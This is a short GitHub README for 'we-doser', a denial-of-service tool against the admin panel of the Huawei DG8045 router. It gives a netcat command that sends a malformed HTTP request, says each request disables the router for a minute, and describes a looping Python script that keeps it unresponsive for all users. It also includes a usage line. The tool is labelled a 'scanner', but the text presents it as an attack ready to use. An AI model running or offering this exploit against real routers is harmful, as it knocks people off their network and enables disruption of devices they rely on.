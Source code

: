 # we-doser
Huawei Router - Dos Attack vulnerability on admin panel
Version : DG8045
---
you can send this request for the router using netcat , socket ,etc

```
$ nc 192.168.1.1 80
GET / HTTP1.1
```

note : one request = one minute
--
in my script you can send this request using while loop , now the router will not send any response for any user:)

<img src='src/we_doser.png'>

## Huawei Router Version : DG8045


## Usage
```$ python3 we_doser.py 192.168.1.1```


### Note : This Script for scanning your router from this vulnerability .! , use at your own risk


## By : <a href='https://facebook.com/knassar702'>Khaled Nassar</a> <a href='mailto:knassar702@gmail.com'>@knassar702</a>


